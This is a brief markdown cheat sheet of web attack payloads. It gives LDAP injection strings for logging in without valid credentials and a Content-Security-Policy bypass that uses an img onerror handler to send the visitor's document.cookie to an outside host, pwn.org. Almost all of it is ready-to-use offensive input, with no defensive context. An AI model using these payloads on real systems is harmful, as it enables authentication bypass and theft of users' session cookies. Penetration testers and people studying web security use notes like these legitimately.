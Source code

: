 
# LDAP Injection

[ldap_injection](https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection)

username: *))%00
password: whatever

username: *
password: *)(&

# Bypass Content-Security-Policy

>'unsafe-inline' :

	using inline script tag : `<script>/*some stuff*/</script>`

	if its blocked we can just use : `<img src onerror="location.href='//pwn.org/index.php?content='.concat(document.cookie);">`